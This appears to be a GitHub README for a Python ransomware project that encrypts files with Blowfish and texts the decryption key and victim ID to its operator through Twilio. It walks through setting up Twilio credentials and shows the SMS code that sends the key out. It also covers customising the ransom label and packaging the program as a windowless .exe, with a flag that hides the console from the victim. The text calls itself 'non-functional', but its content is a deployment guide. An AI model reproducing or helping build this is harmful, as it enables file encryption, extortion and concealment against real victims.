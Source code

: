 # Ransomware
python ransomware that uses blowfish to encrypt the files and sends the decryption key through SMS using twilio.
# non-functional-ransomware
## Required installations
```bash
pip install twilio
```
```bash
pip install pycryptodome
```
## Configuring SMS
- create twilio account at https://www.twilio.com/try-twilio
- on the left under develop, click on phone numbers> manage> active numbers
- create a number
- next click on verified caller IDs and enter and verify your number
- on the top right click on acoount and open API keys and tokens
- you will be able to se your account SID and auth token, you will need these
- you will need to edit this section:
```python
# send key and id number through Twilio SMS
account_sid = 'ENTER ACCOUNT SID HERE'
auth_token = 'ENTER AUTH TOKEN HERE'
client = Client(account_sid, auth_token)
message = client.messages.create(
    body=f'Encryption key: {key}\nID number: {id_number}',
    from_='TWILIO PHONE NUMBER HERE',
    to='YOUR PHONE NUMBER HERE'
)
```
## Additional edits
- you need to customize this line:
```python
 # sms label
    sms_label = tk.Label(root, text="EXAMPLE: SMS YOUREMAIL@.com for decryption key")
    sms_label.pack(pady=5)
```
    
## Converting to .exe
- open file location and type **cmd** and **enter** in the top left
- enter these into the command prompt: 
```bash
pip install pyinstaller
```
```bash
pyinstaller --onefile -w main.py
```
- **--onefile** makes the exe compact instead of having multiple files
- **-w** hides the command prompt when the it is running
